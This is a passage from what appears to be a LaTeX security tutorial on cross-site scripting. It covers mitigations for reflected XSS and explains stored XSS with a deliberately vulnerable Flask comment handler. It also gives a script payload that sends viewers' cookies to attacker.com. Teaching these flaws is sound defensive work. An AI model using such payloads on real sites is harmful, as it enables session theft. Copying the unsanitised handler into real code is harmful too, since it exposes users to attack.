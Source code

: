 \textbf{Mitigation:} Always escape/encode user input before outputting to HTML; use context-aware encoding (HTML, JavaScript, CSS, URL); implement Content Security Policy (CSP); validate and sanitize all input~\cite{OWASPXSSCheatsheet,OWASPCSPCheatsheet,OWASPInputValidationCheatsheet,OWASPASVS}. Example with \texttt{escape()}:

\begin{lstlisting}[style=pycode]
from flask import Flask, request, escape
@app.route("/search")
def search():
    query = request.args.get("q", "")
    return f"<h1>Search results for: {escape(query)}</h1>"
\end{lstlisting}
Better: use template engines that auto-escape by default (Jinja2, Django templates).

\subsection{Stored XSS}
\label{sec:xss_stored}

Stored XSS (also known as Persistent XSS) occurs when malicious scripts are permanently stored on the target server (e.g., in a database, forum, visitor log, or comment field) and later displayed to other users.

\textbf{How it works:} The attacker submits malicious content (typically via a form) that is stored on the server. When other users view the page containing the stored content, the script executes in their browsers. This is more dangerous than reflected XSS because it affects all users who view the compromised page.

\textbf{Example -- Vulnerable Code:}

\begin{lstlisting}[style=pycode]
from flask import Flask, request
comments = []  # In-memory storage
@app.route("/comment", methods=["POST"])
def add_comment():
    comment = request.form.get("comment")
    comments.append(comment)  # Stored without sanitization
@app.route("/comments")
def show_comments():
    html = "<br>".join(comments)
    return html
\end{lstlisting}

\textbf{Attack Example:} Attacker submits a comment containing malicious script that is stored and executed for every viewer:
\begin{lstlisting}[style=attackcode]
<script>document.location="http://attacker.com/steal?cookie="+document.cookie</script>
\end{lstlisting}
Every user who views the comments page may have their session cookies sent to the attacker's server.

